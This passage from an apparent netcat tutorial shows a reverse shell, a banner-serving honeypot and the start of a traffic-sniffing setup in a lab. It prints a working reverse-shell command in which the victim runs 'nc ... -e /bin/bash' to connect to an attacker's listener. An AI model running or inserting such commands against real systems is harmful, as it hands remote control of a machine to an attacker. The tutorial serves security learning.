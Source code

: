 {% img center /images/nc_bindshell.png 'nc_bindshell' 'Bind shell' %}


### Reverse shell

The more common way to use netcat for backdooring is to spawn a reverse shell that connects back to the atacker. This is useful in case the victim is behind a NAT or in a protected internal network that can't be directly accessed from the internet.

So, let's get on with it and start a listener on the attacking machine:

``` plain
nc -v -l -n -p 5555
listening on [any] 5555 ...
```

Now let's connect from the victim machine:

``` plain
nc -v -n 192.168.127.130 5555 -e /bin/bash
(UNKNOWN) [192.168.127.130] 5555 (?) open
```

Basically, the victim machine sent the attacker a shell, and now we control the victim again. I used the -n switch as well to disable all those pesky inverse lookups.

{% img center /images/nc_reverse.png 'nc_reverse' 'reverse shell' %}


### Honeypot

It is possible to set up a very simple honeypot using netcat. I grabbed the banner for the Pure-FTPd server and copied it to a file called banner.txt. Now start listening on port 21 and serve that banner for visitors:

``` plain
nc -vv -l -n -p 21 < banner.txt | cat > log.txt
```

The additional -v flag is for extra verbosity and the data received is piped to a log file. Now, from another machine, let's connect to port 21 and see what we get:

{% img center /images/nc_honeypot.png 'nc_honeypot' 'honeypot' %}


Here we're seeing the familiar FTP banner even though there's no real FTP server running. We send some random data and now let's check on the other machine that this data has been logged:

{% img center /images/nc_log.png 'nc_log' 'Log output' %}


Of course, you might want netcat to keep on listening and not stop after every connection. Consider writing a script for that or look into versions that have continuous connection options.

### Sniffer

Netcat can also be used to sniff traffic from a specific port. One machine has Pure-FTPd running on port 21. On the same machine, we'll use netcat to listen on some other port and execute a script:

``` plain
nc -l -p 4444 -n -vv -e /root/sniff
listening on [any] 4444 ...
```
